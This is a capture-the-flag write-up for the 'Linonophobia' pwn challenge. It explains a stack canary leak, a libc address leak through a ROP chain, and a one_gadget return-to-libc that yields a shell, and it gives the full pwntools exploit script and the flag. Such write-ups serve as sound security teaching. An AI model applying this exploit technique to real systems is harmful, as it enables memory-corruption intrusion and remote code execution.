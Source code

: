 # Linonophobia (Pwn, 200 pts)

## Description

im scared of format strings

## Attachments

[linonophobia](linonophobia)

## Solution

Checksec:

![image](https://user-images.githubusercontent.com/11196638/129359672-bffa2fa9-e0b0-42c9-bf52-7576f8a94aa2.png)

Ok, no PIE.

High level disassembly:

![image](https://user-images.githubusercontent.com/11196638/129359580-5b57277f-477b-4fa8-b014-79dbc8c81dae.png)

The code before the `read` overwrites `printf@GOT` with `puts@GOT`; makes sense, since `puts` does not take format strings like `printf`. But while format string attacks can't be done, `puts` writes until a `null` terminator; `read` reads to `[rbp-0x110]`, so we also know where the canary is - which means we can leak the canary! 

![image](https://user-images.githubusercontent.com/11196638/129360384-b0e9a14d-6e48-4f59-b4c0-d5a081782adc.png)

```py
from pwn import *

p = process('chal.imaginaryctf.org', 42006)
p.recvline()
p.sendline(b'a'*0x108)
p.recvuntil(b'a'*0x108+b'\n')
canary = u64(p.recv(7).rjust(8,b'\x00'))
print("canary=>" + hex(canary))
```
```
canary==>0x5fbf3807ff35e200
```

Luckily, we have another read that we can do, so we can use the canary to overwrite the return address. We can do a return to libc on this - to do so, we need to figure out which libc version is being used. We can use `puts` to leak the address of itself using the binary given. We want the addresses of `puts` to be printed by `puts`, so we need address of `puts@GOT` to be the first argument to `puts@PLT`. As such, we need `pop rdi; ret`. Then we should return back to the beginning to be able to exploit using `main` address.

```py
elf = ELF('./linonophobia')
r = ROP(elf)

PUTS_GOT = elf.got['puts']
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
POP_RDI = (r.find_gadget(['pop rdi', 'ret']))[0]

payload = b'a'*0x108 + p64(canary) + b'a'*8+ p64(POP_RDI) + p64(PUTS_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
p.sendline(payload)
puts_addr = u64(p.recvline().strip().ljust(8,b"\x00"))
print("puts_addr=>" + hex(puts_addr))
```
```
puts_addr=>0x7f07f87215a0
```

Good, we got the address of `puts`. Putting this address into [libc database search](libc.blukat.me), we get a few different versions:

![image](https://user-images.githubusercontent.com/11196638/129401151-76c326b3-0e19-4c7d-89fb-06450373999a.png)

I'm assuming it's going to be one of the `ubuntu` versions. There are three of them, we can try all of them and see if they work. `ubuntu9` didn't work; moving on to `ubuntu9.1`!

We'll use [`one_gadget`](https://github.com/david942j/one_gadget) to look for the shellcode:

![image](https://user-images.githubusercontent.com/11196638/129401491-b4593331-629e-485a-933f-86bd867ffcbc.png)

The first one turned out to be the best option, because the binary conveniently had the gadget `pop r12; pop r13; pop r14; pop r15; ret`. We can just put a bunch of `NULL` bytes on to the stack after that to initialize `r12` and `r15` to `NULL`. 

The offset from `one_gadget` is from the base of our `libc` file. We'll calculate the base address by simply subtracting the `puts` address in the `libc` file from the `puts` address that we have from our running process.

Final code:

```py
from pwn import *

libc = ELF('./libc6_2.31-0ubuntu9.1_amd64.so')
elf = ELF('./linonophobia')
r = ROP(elf)

PUTS_GOT = elf.got['puts']
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
POP_RDI = (r.find_gadget(['pop rdi', 'ret']))[0]
POP_R12_15 = (r.find_gadget(['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret']))[0]
binsh = 0xe6c7e # from one_gadget; requires r12, r15 to be NULL

p = remote('chal.imaginaryctf.org', 42006)
p.recvline()
p.sendline(b'a'*0x108)
p.recvuntil(b'a'*0x108 + b'\n')
canary = u64(p.recv(7).rjust(8,b'\x00'))
print("canary=>" + hex(canary))
print(p.clean())

payload = b'a'*0x108 + p64(canary) + b'a'*8+ p64(POP_RDI) + p64(PUTS_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
p.sendline(payload)
puts_addr = u64(p.recvline().strip().ljust(8,b"\x00"))
print("puts_addr=>" + hex(puts_addr))
print(p.clean())

libc_base = puts_addr - libc.symbols['puts']
binsh = libc_base + binsh

payload = b'a'*0x108 + p64(canary) + b'a'*8 + p64(POP_R12_15) + b'\x00'*32 + p64(binsh)
print(payload)
p.send(payload)
p.recvline()

print("========shell========")
p.send(payload)
p.clean()
p.interactive()
```

## Flag
```
ictf{str1ngs_4r3_null_t3rm1n4t3d!_b421ba9f}
```

## Afterthought

I knew very abstractly of return-to-libc attack, but it was the first time actually doing one. Needless to say, although it took a lot of mistakes and debugging, it felt very satisfactory once I got it to work. Google FTW

## References & Notes

[heavily referenced guide to ret2libc #1](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)

[heavily referenced guide to ret2libc #2](https://www.programmersought.com/article/57675557942/)

[basic outline of ret2libc, both 32 and 64 bits](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc)

[linonophobia.py](linonophobia.py)
